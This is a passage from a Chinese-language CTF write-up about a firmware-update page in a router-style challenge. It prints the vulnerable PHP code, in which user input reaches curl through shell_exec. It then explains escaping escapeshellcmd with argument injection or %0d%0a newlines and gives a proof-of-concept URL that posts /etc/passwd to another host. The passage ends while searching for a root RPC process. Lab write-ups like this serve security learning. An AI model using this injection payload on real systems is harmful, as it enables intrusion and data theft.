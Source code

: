 #### （1）参数注入
通过admin：admin就可以登录后台，跳转到 `http://20.20.11.14/checkupdate.php?url=firmware.bin`,没有其它的页面内容了，也就是说入口点就这一个`url`参数。   
拿到shell后我们可以看到代码如下：   
```php
<?php

// session_start();

print "Content-type: text/html; charset=utf-8\n\n";
// if(empty($_SESSION['name'])){
//     echo "login first";
    //exit();
    //whataver  just do it lucky guy
// }
$url =$_ENV['CGI_URL'];


$cmd = "curl http://x11router.com/".$url." -o /tmp/test.bin ";
$cmd = escapeshellcmd($cmd);
#echo $cmd."\n";
shell_exec($cmd);
echo "Done";

//when we can't unpack the firmware or no firmware, we usually pentest to get shell first.
//hint : do u know rpc on this server ? get root shell
```
主要就是curl参数注入漏洞，需要逃逸escapeshellcmd()检测，一个思路[参数注入逃逸](https://www.mi1k7ea.com/2019/07/04/%E6%B5%85%E8%B0%88escapeshellarg%E4%B8%8E%E5%8F%82%E6%95%B0%E6%B3%A8%E5%85%A5/)，通过注入相关参数进行利用；二是通过%0d%0a换行进行分割逃逸执行命令。   
后续的利用主要通过%0d%0a。   
文件读取 PoC。   
`http://20.20.11.14/checkupdate.php?url=%0d%0acurl http://20.20.11.13:8000/ -X POST --data @/etc/passwd`   
读取flag读取不出，通过checkupdage.php最后两行提示也说明，当前用户没有权限读取flag，需要我们找个其它进程提高权限。   

#### （2）寻找rpc高权限进程
黑盒的方式，可能要/proc/pid/cmdline遍历查找高权限的进程。   
如果拿到shell，ps就可以发现，executeproxynew   